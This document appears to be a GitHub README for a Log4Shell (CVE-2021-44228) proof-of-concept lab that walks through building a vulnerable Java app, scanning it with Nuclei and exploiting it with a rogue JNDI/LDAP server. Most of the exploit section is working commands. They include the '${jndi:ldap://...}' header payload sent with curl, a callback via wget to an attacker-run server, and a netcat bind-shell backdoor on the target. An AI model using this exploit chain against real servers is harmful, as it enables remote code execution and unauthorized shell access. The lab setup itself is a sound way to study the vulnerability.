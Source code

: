 # Log4Shell POC

Demonstrates the Log4Shell (CVE-2021-44228) vulnerability.
You can run a simple attack to demonstrate JNDI out of band (OOB) attack. But also more sophisticated attacks with your own code e.g. to open a backdoor using netcat (nc).

This repo consists for three parts:

1. Vulnerable App (Vulnerable-App)
2. JNDI Server (RogueJndi)
3. Vulnerability Scanner (Nuclei)

All three repos have their origin in separate upstream projects (see following sections for more details)

# Requirements

1. Docker
2. Java
3. Maven

## Install maven

### MacOS

```bash
brew install maven
```

# Setup

## clone the repos

```bash
git clone git@github.com:druminik/log4shell-poc.git
git clone git@github.com:druminik/log4shell-vulnerable-app.git
git clone git@github.com:druminik/nuclei.git
git clone git@github.com:druminik/nuclei-templates.git
git clone git@github.com:druminik/rogue-jndi.git

```

## Run the vulnerable app

```bash
docker build -f log4shell-vulnerable-app/Dockerfile -t vulnerable-app log4shell-vulnerable-app/.
docker run -p 8080:8080 -p 3001:3001 --name vulnerable-app --rm vulnerable-app
```

## Get your local ip address (MacOS)

```bash
# for ethernet
ipconfig getifaddr en0
# for wireless
ipconfig getifaddr en1

```

## Test app for vulnerability

Build the docker container

```bash
docker build -f nuclei/Dockerfile -t nuclei nuclei/.
```

Now let's test if the server will tell us its hostname. Replace "your-private-ip" with the ip of your vulnerable app docker container

```bash
docker run -it --rm --entrypoint bin/ash nuclei
nuclei -duc -t /root/nuclei-templates/cves/2021/CVE-2021-44228.yaml -u http://your-private-ip:8080
```

If the remote server is vulnerable to the log4shell bug, it will give you an output like following. The last element in the output (8dc4a6fbe91b) is the remote server's hostname.

Example

```bash
$> nuclei -duc -t /root/nuclei-templates/cves/2021/CVE-2021-44228.yaml -u http://192.168.1.126:8080
                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   2.6.0

                projectdiscovery.io

[WRN] Use with caution. You are responsible for your actions.
[WRN] Developers assume no liability and are not responsible for any misuse or damage.
[INF] Using Nuclei Engine 2.6.0 (latest)
[INF] Using Nuclei Templates 8.8.4 (latest)
[INF] Templates added in last update: 3030
[INF] Templates loaded for scan: 1
[INF] Using Interactsh Server: oast.live
[2022-02-06 19:12:58] [CVE-2021-44228] [http] [critical] http://192.168.1.126:8080/ [62.2.17.166,8dc4a6fbe91b.xapiversion.c801rcpc7q5s72ri0tr0ceyb5pyyyyyyr.oast.live,xapiversion,8dc4a6fbe91b]
```

# Exploit the server

Now let's run some command on the remote server.

The JNDI Server (RogueJNDI) will run a JNDI server (port 1389) and a http server (8000). The JNDI Server will serve exploit code to be executed on the vulnerable-app. The http server is a backcall server for receiving calls sent from the vulnerable app.

## Run the JNDI server

Start a new console and run the following commands. This will start two servers listening on separate ports.

1. LDAP Server, port 1389
2. Web Server, port 8000
   The web server will serve the code to execute. The LDAP server will tell the vulnerable app where to load the code to execute.

```bash
cd rogue-jndi
mvn compile package
java -jar target/RogueJndi-1.1.jar -c "wget http://your-private-ip:8000/callback/gugus"
```

Example

```bash
java -jar target/RogueJndi-1.1.jar -c "wget http://192.168.1.126:8000/callback/gugus"
```

## Run simple attack

Call the vulnerable app (on 127.0.0.1:8080) to load remote code from your jndi server (jndi:ldap://your-private-ip:1389). The code is referenced by the path (/o=reference).
Replace the code to be executed as you wish. You'll find it in the following file:
rogue-jndi/src/main/java/artsploit/ExportObject.java

Run the following command in a new console

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/o=reference}'
```

Example

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.1.126:1389/o=reference}'
```

## open backdoor on server running vulnerable app

Let's start a backdor using netcat (nc) on the vulnerable app server.

Restart the jndi server with the following command.

```bash
java -jar target/RogueJndi-1.1.jar -c "nc -vv -l -p 3001 -e /bin/ash"
```

Start the remote nc server on the vulnerable app.
Run the following command in a new console

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/o=reference}'
```

In a new console login with nc

```bash
nc -v localhost 3001
```

Test the backdoor by executing some linux shell commands and have fun

```
ls
uname -r
ls /app
```

# References

## Vulnerable app

https://github.com/christophetd/log4shell-vulnerable-app

## RogueJNDI

https://github.com/veracode-research/rogue-jndi.git

## Nuclei

https://github.com/projectdiscovery/nuclei
